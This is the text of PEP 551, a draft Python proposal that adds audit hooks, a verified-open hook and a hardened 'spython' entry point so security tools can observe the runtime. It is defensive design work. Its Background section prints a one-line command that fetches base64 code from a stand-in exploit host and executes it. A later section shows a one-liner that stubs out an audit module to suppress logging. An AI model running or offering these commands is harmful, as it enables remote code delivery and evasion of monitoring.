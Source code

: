 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Last-Modified: $Date$
Author: Steve Dower <steve.dower@python.org>
Status: Draft
Type: Standards Track
Content-Type: text/x-rst
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017 (security-sig), 28-Aug-2017 (python-dev)

Abstract
========

This PEP describes additions to the Python API and specific behaviors
for the CPython implementation that make actions taken by the Python
runtime visible to security and auditing tools. The goals in order of
increasing importance are to prevent malicious use of Python, to detect
and report on malicious use, and most importantly to detect attempts to
bypass detection. Most of the responsibility for implementation is
required from users, who must customize and build Python for their own
environment.

We propose two small sets of public APIs to enable users to reliably
build their copy of Python without having to modify the core runtime,
protecting future maintainability. We also discuss recommendations for
users to help them develop and configure their copy of Python.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. Currently, the Python
runtime does not provide any ability to do this, which (anecdotally) has
led to organizations switching to other languages. The aim of this PEP
is to enable system administrators to deploy a security transparent copy
of Python that can integrate with their existing auditing and protection
systems.

On Windows, some specific features that may be enabled by this include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be used with the expanded APIs are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

Overview of Changes
===================

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

The aim of these changes is to enable system administrators to integrate
Python into their existing security systems, without dictating what
those systems look like or how they should behave. We propose two API
changes to enable this: an Audit Hook and Verified Open Hook. Both are
not set by default, and both require modifications to the entry point
binary to enable any functionality. For the purposes of validation and
example, we propose a new ``spython``/``spython.exe`` entry point
program that enables some basic functionality using these hooks.
**However, security-conscious organizations are expected to create their
own entry points to meet their own needs.**

Audit Hook
----------

In order to achieve security transparency, an API is required to raise
messages from within certain operations. These operations are typically
deep within the Python runtime or standard library, such as dynamic code
compilation, module imports, DNS resolution, or use of certain modules
such as ``ctypes``.

The new C APIs required for audit hooks are::

   # Add an auditing hook
   typedef int (*hook_func)(const char *event, PyObject *args);
   int PySys_AddAuditHook(hook_func hook);

   # Raise an event with all auditing hooks
   int PySys_Audit(const char *event, PyObject *args);

   # Internal API used during Py_Finalize() - not publicly accessible
   void _Py_ClearAuditHooks(void);

The new Python APIs for audit hooks are::

   # Add an auditing hook
   sys.addaudithook(hook: Callable[str, tuple]) -> None

   # Raise an event with all auditing hooks
   sys.audit(str, *args) -> None


Hooks are added by calling ``PySys_AddAuditHook()`` from C at any time,
including before ``Py_Initialize()``, or by calling
``sys.addaudithook()`` from Python code. Hooks are never removed or
replaced, and existing hooks have an opportunity to refuse to allow new
hooks to be added (adding an audit hook is audited, and so preexisting
hooks can raise an exception to block the new addition).

When events of interest are occurring, code can either call
``PySys_Audit()`` from C (while the GIL is held) or ``sys.audit()``. The
string argument is the name of the event, and the tuple contains
arguments. A given event name should have a fixed schema for arguments,
and both arguments are considered a public API (for a given x.y version
of Python), and thus should only change between feature releases with
updated documentation.

When an event is audited, each hook is called in the order it was added
with the event name and tuple. If any hook returns with an exception
set, later hooks are ignored and *in general* the Python runtime should
terminate. This is intentional to allow hook implementations to decide
how to respond to any particular event. The typical responses will be to
log the event, abort the operation with an exception, or to immediately
terminate the process with an operating system exit call.

When an event is audited but no hooks have been set, the ``audit()``
function should include minimal overhead. Ideally, each argument is a
reference to existing data rather than a value calculated just for the
auditing call.

As hooks may be Python objects, they need to be freed during
``Py_Finalize()``. To do this, we add an internal API
``_Py_ClearAuditHooks()`` that releases any ``PyObject*`` hooks that are
held, as well as any heap memory used. This is an internal function with
no public export, but it triggers an event for all audit hooks to ensure
that unexpected calls are logged.

See `Audit Hook Locations`_ for proposed audit hook points and schemas,
and the `Recommendations`_ section for discussion on
appropriate responses.

Verified Open Hook
------------------

Most operating systems have a mechanism to distinguish between files
that can be executed and those that can not. For example, this may be an
execute bit in the permissions field, or a verified hash of the file
contents to detect potential code tampering. These are an important
security mechanism for preventing execution of data or code that is not
approved for a given environment. Currently, Python has no way to
integrate with these when launching scripts or importing modules.

The new public C API for the verified open hook is::

   # Set the handler
   typedef PyObject *(*handler_func)(const char *narrow,
                                     const wchar_t *wide)
   int PyOS_SetOpenForExecuteHandler(handler_func handler)

   # Open a file using the handler
   PyObject *PyOS_OpenForExec(PyObject *path)

The new public Python API for the verified open hook is::

   # Open a file using the handler
   os.open_for_exec(pathlike)

The ``os.open_for_exec()`` function is a drop-in replacement for
``open(pathlike, 'rb')``. Its default behaviour is to open a file for
raw, binary access - any more restrictive behaviour requires the use of
a custom handler. (Aside: since ``importlib`` requires access to this
function before the ``os`` module has been imported, it will be
available on the ``nt``/``posix`` modules, but the intent is that other
users will access it through the ``os`` module.)

A custom handler may be set by calling ``Py_SetOpenForExecuteHandler()``
from C at any time, including before ``Py_Initialize()``. However, if a
handler has already been set then the call will fail. When
``open_for_exec()`` is called with a handler set, the handler will be
passed the processed narrow or wide path, depending on platform, and its
return value will be returned directly. The returned object should be an
open file-like object that supports reading raw bytes. This is
explicitly intended to allow a ``BytesIO`` instance if the open handler
has already had to read the file into memory in order to perform
whatever verification is necessary to determine whether the content is
permitted to be executed.

Note that these handlers can import and call the ``_io.open()`` function
on CPython without triggering themselves.

If the handler determines that the file is not suitable for execution,
it should raise an exception of its choice, as well as raising any other
auditing events or notifications.

All import and execution functionality involving code from a file will
be changed to use ``open_for_exec()`` unconditionally. It is important
to note that calls to ``compile()``, ``exec()`` and ``eval()`` do not go
through this function - an audit hook that includes the code from these
calls will be added and is the best opportunity to validate code that is
read from the file. Given the current decoupling between import and
execution in Python, most imported code will go through both
``open_for_exec()`` and the log hook for ``compile``, and so care should
be taken to avoid repeating verification steps.

.. note::
   The use of ``open_for_exec()`` by ``importlib`` is a valuable first
   defence, but should not be relied upon to prevent misuse. In
   particular, it is easy to monkeypatch ``importlib`` in order to
   bypass the call. Auditing hooks are the primary way to achieve
   security transparency, and are essential for detecting attempts to
   bypass other functionality.

API Availability
----------------

While all the functions added here are considered public and stable API,
the behavior of the functions is implementation specific. The
descriptions here refer to the CPython implementation, and while other
implementations should provide the functions, there is no requirement
that they behave the same.

For example, ``sys.addaudithook()`` and ``sys.audit()`` should exist but
may do nothing. This allows code to make calls to ``sys.audit()``
without having to test for existence, but it should not assume that its
call will have any effect. (Including existence tests in
security-critical code allows another vector to bypass auditing, so it
is preferable that the function always exist.)

``os.open_for_exec(pathlike)`` should at a minimum always return
``_io.open(pathlike, 'rb')``. Code using the function should make no
further assumptions about what may occur, and implementations other than
CPython are not required to let developers override the behavior of this
function with a hook.

Audit Hook Locations
====================

Calls to ``sys.audit()`` or ``PySys_Audit()`` will be added to the
following operations with the schema in Table 1. Unless otherwise
specified, the ability for audit hooks to abort any listed operation
should be considered part of the rationale for including the hook.

.. csv-table:: Table 1: Audit Hooks
   :header: "API Function", "Event Name", "Arguments", "Rationale"
   :widths: 2, 2, 3, 6
   
   ``PySys_AddAuditHook``, ``sys.addaudithook``, "", "Detect when new
   audit hooks are being added.
   "
   ``_PySys_ClearAuditHooks``, ``sys._clearaudithooks``, "", "Notifies
   hooks they are being cleaned up, mainly in case the event is
   triggered unexpectedly. This event cannot be aborted.
   "
   ``Py_SetOpenForExecuteHandler``, ``setopenforexecutehandler``, "", "
   Detects any attempt to set the ``open_for_execute`` handler.
   "
   "``compile``, ``exec``, ``eval``, ``PyAst_CompileString``,
   ``PyAST_obj2mod``", ``compile``, "``(code, filename_or_none)``", "
   Detect dynamic code compilation, where ``code`` could be a string or
   AST. Note that this will be called for regular imports of source
   code, including those that were opened with ``open_for_exec``.
   "
   "``exec``, ``eval``, ``run_mod``", ``exec``, "``(code_object,)``", "
   Detect dynamic execution of code objects. This only occurs for
   explicit calls, and is not raised for normal function invocation.
   "
   ``import``, ``import``, "``(module, filename, sys.path,
   sys.meta_path, sys.path_hooks)``", "Detect when modules are
   imported. This is raised before the module name is resolved to a
   file. All arguments other than the module name may be ``None`` if
   they are not used or available.
   "
   ``code_new``, ``code.__new__``, "``(bytecode, filename, name)``", "
   Detect dynamic creation of code objects. This only occurs for
   direct instantiation, and is not raised for normal compilation.
   "
   ``func_new_impl``, ``function.__new__``, "``(code,)``", "Detect
   dynamic creation of function objects. This only occurs for direct
   instantiation, and is not raised for normal compilation.
   "
   "``_ctypes.dlopen``, ``_ctypes.LoadLibrary``", ``ctypes.dlopen``, "
   ``(module_or_path,)``", "Detect when native modules are used.
   "
   ``_ctypes._FuncPtr``, ``ctypes.dlsym``, "``(lib_object, name)``", "
   Collect information about specific symbols retrieved from native
   modules.
   "
   ``_ctypes._CData``, ``ctypes.cdata``, "``(ptr_as_int,)``", "Detect
   when code is accessing arbitrary memory using ``ctypes``.
   "
   ``id``, ``id``, "``(id_as_int,)``", "Detect when code is accessing
   the id of objects, which in CPython reveals information about
   memory layout.
   "
   ``sys._getframe``, ``sys._getframe``, "``(frame_object,)``", "Detect
   when code is accessing frames directly.
   "
   ``sys._current_frames``, ``sys._current_frames``, "", "Detect when
   code is accessing frames directly.
   "
   ``PyEval_SetProfile``, ``sys.setprofile``, "", "Detect when code is
   injecting trace functions. Because of the implementation, exceptions
   raised from the hook will abort the operation, but will not be
   raised in Python code. Note that ``threading.setprofile`` eventually
   calls this function, so the event will be audited for each thread.
   "
   ``PyEval_SetTrace``, ``sys.settrace``, "", "Detect when code is
   injecting trace functions. Because of the implementation, exceptions
   raised from the hook will abort the operation, but will not be
   raised in Python code. Note that ``threading.settrace`` eventually
   calls this function, so the event will be audited for each thread.
   "
   ``_PyEval_SetAsyncGenFirstiter``, ``sys.set_async_gen_firstiter``, "
   ", "Detect changes to async generator hooks.
   "
   ``_PyEval_SetAsyncGenFinalizer``, ``sys.set_async_gen_finalizer``, "
   ", "Detect changes to async generator hooks.
   "
   ``_PyEval_SetCoroutineWrapper``, ``sys.set_coroutine_wrapper``, "
   ", "Detect changes to the coroutine wrapper.
   "
   ``Py_SetRecursionLimit``, ``sys.setrecursionlimit``, "
   ``(new_limit,)``", "Detect changes to the recursion limit.
   "
   ``_PyEval_SetSwitchInterval``, ``sys.setswitchinterval``, "
   ``(interval_us,)``", "Detect changes to the switching interval.
   "
   "``socket.bind``, ``socket.connect``, ``socket.connect_ex``,
   ``socket.getaddrinfo``, ``socket.getnameinfo``, ``socket.sendmsg``,
   ``socket.sendto``", ``socket.address``, "``(address,)``", "Detect
   access to network resources. The address is unmodified from the
   original call.
   "
   ``socket.__init__``, "socket()", "``(family, type, proto)``", "
   Detect creation of sockets. The arguments will be int values.
   "
   ``socket.gethostname``, ``socket.gethostname``, "", "Detect attempts
   to retrieve the current host name.
   "
   ``socket.sethostname``, ``socket.sethostname``, "``(name,)``", "
   Detect attempts to change the current host name. The name argument
   is passed as a bytes object.
   "
   "``socket.gethostbyname``, ``socket.gethostbyname_ex``",
   "``socket.gethostbyname``", "``(name,)``", "Detect host name
   resolution. The name argument is a str or bytes object.
   "
   ``socket.gethostbyaddr``, ``socket.gethostbyaddr``, "
   ``(address,)``", "Detect host resolution. The address argument is a
   str or bytes object.
   "
   ``socket.getservbyname``, ``socket.getservbyname``, "``(name,
   protocol)``", "Detect service resolution. The arguments are str
   objects.
   "
   "``socket.getservbyport``", ``socket.getservbyport``, "``(port,
   protocol)``", "Detect service resolution. The port argument is an
   int and protocol is a str.
   "
   "``member_get``, ``func_get_code``, ``func_get_[kw]defaults``
   ",``object.__getattr__``,"``(object, attr)``","Detect access to
   restricted attributes. This event is raised for any built-in
   members that are marked as restricted, and members that may allow
   bypassing imports.
   "
   "``_PyObject_GenericSetAttr``, ``check_set_special_type_attr``,
   ``object_set_class``, ``func_set_code``, ``func_set_[kw]defaults``","
   ``object.__setattr__``","``(object, attr, value)``","Detect monkey
   patching of types and objects. This event
   is raised for the ``__class__`` attribute and any attribute on
   ``type`` objects.
   "
   "``_PyObject_GenericSetAttr``",``object.__delattr__``,"``(object,
   attr)``","Detect deletion of object attributes. This event is raised
   for any attribute on ``type`` objects.
   "
   "``Unpickler.find_class``",``pickle.find_class``,"``(module_name,
   global_name)``","Detect imports and global name lookup when
   unpickling.
   "
   "``array_new``",``array.__new__``,"``(typecode, initial_value)``", "
   Detects creation of array objects.
   "

TODO - more hooks in ``_socket``, ``_ssl``, others?

SPython Entry Point
===================

A new entry point binary will be added, called ``spython.exe`` on
Windows and ``spythonX.Y`` on other platforms. This entry point is
intended primarily as an example, as we expect most users of this
functionality to implement their own entry point and hooks (see
`Recommendations`_). It will also be used for tests.

Source builds will build ``spython`` by default, but distributions
should not include it except as a test binary. The python.org managed
binary distributions will not include ``spython``.

**Do not accept most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options. This prevents arbitrary
code execution from in-memory data or non-script files (such as pickles,
which can be executed using ``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

When built with ``Py_DEBUG``, the ``spython`` entry point will allow a
``-i`` option with no other arguments to enter into interactive mode,
with audit messages being written to standard error rather than a file.
This is intended for testing and debugging only.

**Log security events to a file**

Before initialization, ``spython`` will set an audit hook that writes
events to a local file. By default, this file is the full path of the
process with a ``.log`` suffix, but may be overridden with the
``SPYTHONLOG`` environment variable (despite such overrides being
explicitly discouraged in `Recommendations`_).

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

**Restrict importable modules**

Also before initialization, ``spython`` will set an open-for-execute
hook that validates all files opened with ``os.open_for_exec``. This
implementation will require all files to have a ``.py`` suffix (thereby
blocking the use of cached bytecode), and will raise a custom audit
event ``spython.open_for_exec`` containing ``(filename,
True_if_allowed)``.

On Windows, the hook will also open the file with flags that prevent any
other process from opening it with write access, which allows the hook
to perform additional validation on the contents with confidence that it
will not be modified between the check and use. Compilation will later
trigger a ``compile`` event, so there is no need to read the contents
now for AMSI, but other validation mechanisms such as DeviceGuard [4]_
should be performed here.

**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

Performance Impact
==================

The important performance impact is the case where events are being
raised but there are no hooks attached. This is the unavoidable case -
once a distributor or sysadmin begins adding audit hooks they have
explicitly chosen to trade performance for functionality. Performance
impact using ``spython`` or with hooks added are not of interest here,
since this is considered opt-in functionality.

Analysis using the ``performance`` tool shows no significant impact,
with the vast majority of benchmarks showing between 1.05x faster to
1.05x slower.

In our opinion, the performance impact of the set of auditing points
described in this PEP is negligible.

Recommendations
===============

Specific recommendations are difficult to make, as the ideal
configuration for any environment will depend on the user's ability to
manage, monitor, and respond to activity on their own network. However,
many of the proposals here do not appear to be of value without deeper
illustration. This section provides recommendations using the terms
**should** (or **should not**), indicating that we consider it dangerous
to ignore the advice, and **may**, indicating that for the advice ought
to be considered for high value systems. The term **sysadmins** refers
to whoever is responsible for deploying Python throughout your network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_exec`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_exec`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_exec`` hook **may**
be set in C code before ``Py_Initialize`` is called. This prevents later
code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_exec`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_exec`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

[TODO: more good advice; less bad advice]

Rejected Ideas
==============

Separate module for audit hooks
-------------------------------

The proposal is to add a new module for audit hooks, hypothetically
``audit``. This would separate the API and implementation from the
``sys`` module, and allow naming the C functions ``PyAudit_AddHook`` and
``PyAudit_Audit`` rather than the current variations.

Any such module would need to be a built-in module that is guaranteed to
always be present. The nature of these hooks is that they must be
callable without condition, as any conditional imports or calls provide
more opportunities to intercept and suppress or modify events.

Given its nature as one of the most core modules, the ``sys`` module is
somewhat protected against module shadowing attacks. Replacing ``sys``
with a sufficiently functional module that the application can still run
is a much more complicated task than replacing a module with only one
function of interest. An attacker that has the ability to shadow the
``sys`` module is already capable of running arbitrary code from files,
whereas an ``audit`` module can be replaced with a single statement::

    import sys; sys.modules['audit'] = type('audit', (object,),
        {'audit': lambda *a: None, 'addhook': lambda *a: None})

Multiple layers of protection already exist for monkey patching attacks
against either ``sys`` or ``audit``, but assignments or insertions to
``sys.modules`` are not audited.

This idea is rejected because it makes substituting ``audit`` calls
throughout all callers near trivial.

Flag in sys.flags to indicate "secure" mode
-------------------------------------------

The proposal is to add a value in ``sys.flags`` to indicate when Python
is running in a "secure" mode. This would allow applications to detect
when some features are enabled and modify their behaviour appropriately.

Currently there are no guarantees made about security by this PEP - this
section is the first time the word "secure" has been used. Security
**transparency** does not result in any changed behaviour, so there is
no appropriate reason for applications to modify their behaviour.

Both application-level APIs ``sys.audit`` and ``os.open_for_exec`` are
always present and functional, regardless of whether the regular
``python`` entry point or some alternative entry point is used. Callers
cannot determine whether any hooks have been added (except by performing
side-channel analysis), nor do they need to. The calls should be fast
enough that callers do not need to avoid them, and the sysadmin is
responsible for ensuring their added hooks are fast enough to not affect
application performance.

The argument that this is "security by obscurity" is valid, but
irrelevant. Security by obscurity is only an issue when there are no
other protective mechanisms; obscurity as the first step in avoiding
attack is strongly recommended (see `this article
<https://danielmiessler.com/study/security-by-obscurity/>`_ for
discussion).

This idea is rejected because there are no appropriate reasons for an
application to change its behaviour based on whether these APIs are in
use.

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] AMSI, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.
